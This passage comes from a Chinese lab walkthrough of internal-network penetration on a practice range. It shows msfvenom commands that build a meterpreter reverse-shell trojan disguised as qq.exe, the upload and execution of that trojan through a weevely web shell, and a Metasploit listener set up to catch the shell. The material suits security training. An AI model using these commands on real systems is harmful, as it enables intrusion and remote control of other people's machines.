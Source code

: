 

接下来我们在攻击主机上利用msfvenom生成反弹shell的木马qq.exe

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.243.128 lport=12345 -f exe > qq.exe
```

![image-20210806151838583](红日靶场内网渗透.assets/image-20210806151838583.png)



然后我们将qq.exe通过weevely上传到目标服务器目录中

```
file_upload /opt/tools/web/auto/metasploit/qq.exe qq.exe
```



运行该木马程序

```
shell_sh qq.exe
```



接着打开msfconsole，开启监听模块设置参数反弹shell

```
msfconsole         ###打开metasploit

use exploit/multi/handler   ###设置监听模块

set lhost 172.16.243.1      ##设置监听主机ip地址
 
set lport 12345              ###设置监听主机端口
```

![image-20210806153849245](红日靶场内网渗透.assets/image-20210806153849245.png)
